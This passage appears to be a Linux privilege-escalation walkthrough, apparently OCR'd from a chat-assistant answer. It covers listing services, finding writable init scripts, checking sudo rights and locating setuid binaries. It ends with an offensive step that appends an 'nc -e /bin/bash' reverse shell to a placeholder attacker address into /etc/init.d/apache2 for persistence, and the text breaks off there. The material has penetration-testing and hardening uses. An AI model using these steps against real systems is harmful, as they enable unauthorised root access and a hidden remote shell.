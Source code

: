 For Systemd, list services:


systemctl list-units --type=service
What to Look For:
Services running as root or with high privileges (e.g., sshd, apache2, mysql, postgres, etc.).
Outdated or vulnerable services (e.g., old versions of Apache, PHP, MySQL, etc.).
# ## 2. Check for Misconfigured Permissions (Privilege Escalation)
Once you know which services are running, you should check for misconfigurations in service scripts that could allow you to escalate privileges.

Identifying Misconfigured Scripts:
Writable Service Scripts: Check the permissions of the service scripts in /etc/init.d/ to ensure they are not writable by unauthorized users:

ls -l /etc/init.d/
A service script that is writable by non-privileged users could be a target for modification. Look for entries where the script is writable by a user or group that shouldn't have write access:

-rw-rw-r--  1 root  users  3456 Aug 19 10:00 apache2  # Potentially misconfigured (writable by users)
If you find such scripts, modify them to execute arbitrary commands 
///(e.g., spawn a reverse shell or escalate privileges).

Check for Sudo Access: Misconfigured sudo permissions can also be a vector. Use tools like sudo -l to check for any sudo privileges that might allow you to run specific commands as root:


sudo -l
If you have any sudo privileges for specific commands (e.g., sudo /bin/bash), you could execute a root shell.

Look for Setuid and Setgid Binaries: Check if there are any binaries with the setuid or setgid bit set (running with the privileges of their owner or group):

bash
Copy code
find / -perm -4000 -o -perm -2000 -type f
If any service scripts or binaries have these bits set, it could be a potential privilege escalation vector, as they run with elevated privileges (often root).

# ### 3. Exploiting Service Misconfigurations and Weaknesses
Now that you've identified running services and potential misconfigurations, you can start exploiting these weaknesses to escalate privileges or maintain persistence.

Exploit Techniques:
Modify a Writable Init Script: If you've identified a writable service script (e.g., /etc/init.d/apache2), you can add commands to spawn a reverse shell when the service starts:

Example:

bash
Copy code
echo "nc -e /bin/bash <attacker_ip> <attacker_port>" >> /etc/init.d/apache2
Then, restart the service to trigger the reverse shell:
